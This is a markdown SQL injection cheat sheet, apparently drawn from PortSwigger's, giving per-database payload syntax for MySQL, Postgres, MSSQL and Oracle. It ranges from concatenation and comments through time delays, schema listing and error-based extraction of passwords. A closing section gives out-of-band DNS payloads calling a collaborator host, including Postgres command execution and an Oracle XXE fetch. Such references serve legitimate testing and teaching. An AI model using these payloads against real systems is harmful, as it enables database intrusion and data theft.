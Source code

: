 # SQL Injection

<div class="grid cards" markdown>

-   __Sources__

    ---

    [:octicons-arrow-right-24: PortSwigger - SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

</div>


## String Concatenation

=== "MySQL"
    ```sql
    'foo' 'bar'
    ```
    ```sql
    CONCAT('foo', 'bar')
    ```

=== "Postgres"
    ```sql
    'foo'||'bar'
    ```

=== "MSSQL"
    ```sql
    'foo'+'bar'
    ```

=== "Oracle"
    ```sql
    'foo'||'bar'
    ```


## Substring

=== "MySQL"
    ```sql
    SUBSTRING('foobar', 2, 3)
    ```

=== "Postgres"
    ```sql
    SUBSTRING('foobar', 2, 3)
    ```

=== "MSSQL"
    ```sql
    SUBSTRING('foobar', 2, 3)
    ```

=== "Oracle"
    ```sql
    SUBSTR('foobar', 2, 3)
    ```

## Stacked Queries

=== "MySQL"
    ```sql
    QUERY-1-HERE; QUERY-2-HERE
    ```

=== "Postgres"
    ```sql
    QUERY-1-HERE; QUERY-2-HERE
    ```

=== "MSSQL"
    ```sql
    QUERY-1-HERE; QUERY-2-HERE
    ```


## Comments

=== "MySQL"
    ```sql
    -- This is a comment
    ```
    ```sql
    /* This is a comment */
    ```
    ```mysql
    # This is a comment
    ```

=== "Postgres"
    ```sql
    -- This is a comment
    ```
    ```sql
    /* This is a comment */
    ```

=== "MSSQL"
    ```sql
    -- This is a comment
    ```
    ```sql
    /* This is a comment */
    ```

=== "Oracle"
    ```sql
    -- This is a comment
    ```


## Database Version

=== "MySQL"
    ```sql
    SELECT @@version
    ```

=== "Postgres"
    ```sql
    SELECT version()
    ```

=== "MSSQL"
    ```sql
    SELECT @@VERSION
    ```

=== "Oracle"
    ```sql
    SELECT banner FROM v$version
    ```
    ```sql
    SELECT version FROM v$instance
    ```


## Time Delays

=== "MySQL"
    ```sql
    SELECT sleep(5)
    ```

=== "Postgres"
    ```sql
    SELECT pg_sleep(5)
    ```

=== "MSSQL"
    ```sql
    WAITFOR DELAY '00:00:05'
    ```

=== "Oracle"
    ```sql
    dbms_pipe.receive_message(('a'),10)
    ```


## List Tables

=== "MySQL"
    ```sql
    SELECT * FROM information_schema.tables
    ```

=== "Postgres"
    ```sql
    SELECT * FROM information_schema.tables
    ```

=== "MSSQL"
    ```sql
    SELECT * FROM information_schema.tables
    ```

=== "Oracle"
    ```sql
    SELECT * FROM all_tables
    ```


## List Columns of a Table

=== "MySQL"
    ```sql
    SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
    ```

=== "Postgres"
    ```sql
    SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
    ```

=== "MSSQL"
    ```sql
    SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
    ```

=== "Oracle"
    ```sql
    SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
    ```


## Conditional Errors

=== "MySQL"
    ```sql
    SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')
    ```

=== "Postgres"
    ```sql
    1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)
    ```

=== "MSSQL"
    ```sql
    SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
    ```

=== "Oracle"
    ```sql
    SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual
    ```


## Extracting data via visible error messages

=== "MySQL"
    ```sql
    SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')))
    ```

=== "Postgres"
    ```sql
    SELECT CAST((SELECT password FROM users LIMIT 1) AS int)
    ```

=== "MSSQL"
    ```sql
     SELECT 'foo' WHERE 1 = (SELECT 'secret')
    ```


## DNS Lookup

=== "MySQL"
    > Both are Windows only

    ```sql
    LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
    ```
    ```sql
    SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
    ```

=== "Postgres"
    ```sql
    copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
    ```

=== "MSSQL"
    ```sql
    exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'
    ```

=== "Oracle"
    This has been patched, but still findable:
    ```sql
    SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
    ```

    This requires elevated privileges:
    ```sql
    SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')
    ```
